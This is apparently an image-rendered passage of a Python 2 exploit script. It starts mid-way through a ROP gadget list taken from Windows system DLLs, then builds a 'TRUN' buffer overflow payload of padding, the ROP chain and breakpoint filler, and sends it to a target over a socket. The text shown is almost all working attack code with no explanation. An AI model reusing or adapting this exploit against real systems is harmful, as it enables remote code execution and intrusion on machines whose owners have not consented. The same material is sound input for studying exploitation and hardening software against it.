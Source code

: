 ```python
      0x74d9976f,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x74d925da,  # XCHG EAX,EBX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x76108174,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x74d9abbe,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x749c01ca,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      0x76f55cea,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR 
      0x74e00920,  # &Writable location [KERNEL32.DLL] ** REBASED ** ASLR
      0x747a2c2b,  # POP EDI # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x74d9abc0,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      0x747f9cba,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      0x7484f95c,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)


def main():

    rop_chain = create_rop_chain()

    buffer = "TRUN /.:/"
    buffer += "A"*2003
    buffer += rop_chain
    buffer += "\xCC"*(3500-2003-len(rop_chain))

    try:
        print "[+] Connecting to target"
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.recv(1024)
        print "[+] Sent payload with length: %d" % len(buffer)
        s.send(buffer)
        s.close()

    except Exception, msg:
        print "[-] Something went wrong :("
        print msg

main()
```

